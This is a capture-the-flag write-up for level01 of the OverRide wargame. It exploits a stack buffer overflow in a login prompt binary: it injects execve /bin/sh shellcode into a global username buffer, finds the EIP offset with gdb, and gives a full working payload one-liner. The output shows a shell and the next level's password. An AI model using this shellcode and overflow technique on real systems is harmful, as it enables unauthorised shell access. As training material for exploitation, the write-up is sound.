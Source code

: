 # Level 1

Here the vulnerable function is the second fgets which gets 100 characters in a 16 characters input buffer. We do not have a call to system in the program so we have to place a shellcode in executable memory first. The machine has no NX so we can place the shellcode everywhere but the easiest address to get is the address of the global variable a_user_name. We can easily get it using ltrace :

```bash
level01@OverRide:~$ ltrace ./level01
__libc_start_main(0x80484d0, 1, -10284, 0x80485c0, 0x8048630 <unfinished ...>
puts("********* ADMIN LOGIN PROMPT ***"...********* ADMIN LOGIN PROMPT *********
)      = 39
printf("Enter Username: ")                       = 16
fgets(Enter Username: dat_wil
"dat_wil\n", 256, 0xf7fcfac0)              = 0x0804a040
puts("verifying username....\n"verifying username....

)                 = 24
puts("Enter Password: "Enter Password: 
)                         = 17
fgets(toto
"toto\n", 100, 0xf7fcfac0)                 = 0xffffd6ec
puts("nope, incorrect password...\n"nope, incorrect password...

)            = 29
+++ exited (status 1) +++
```

The address of a_user_name global variable is 0x0804a040. However, to pass the if statement we need the user name to start with dat_wil. Thus the first input will have to be "dat_wil" + the address of the shellcode and the second one will be the characters to overflow into EIP (since this is the vulnerable function) and write the address of the shellcode there which will be 0x0804a040 + 7 because dat_wil is 7 characters => 0x0804a047

To find the offset to the EIP pointer, we use a cyclic string generated with this website https://wiremask.eu/tools/buffer-overflow-pattern-generator/

With the cyclic we find that the offset by running the program in gdb.
```bash
level01@OverRide:~$ echo "dat_wil" > /tmp/in01
level01@OverRide:~$ echo "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag" >> /tmp/in01
level01@OverRide:~$ gdb level01 -q
Reading symbols from /home/users/level01/level01...(no debugging symbols found)...done.
(gdb) run < /tmp/in01
Starting program: /home/users/level01/level01 < /tmp/in01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password: 
nope, incorrect password...


Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
```

By looking at the string or just putting the segfault address in the cyclic generator tool, we get 80 characters offset

Final cooked payload :

```bash
(python -c 'print "dat_wil\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\x31\xc9\x31\xd2\xcd\x80"'; python -c 'print "N" * 80 + "\x47\xa0\x04\x08"'; cat) | ./level01
```

And then...

```bash
level01@OverRide:~$ (python -c 'print "dat_wil\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\x31\xc9\x31\xd2\xcd\x80"'; python -c 'print "N" * 80 + "\x47\xa0\x04\x08"'; cat) | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password: 
nope, incorrect password...

whoami
level02
cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```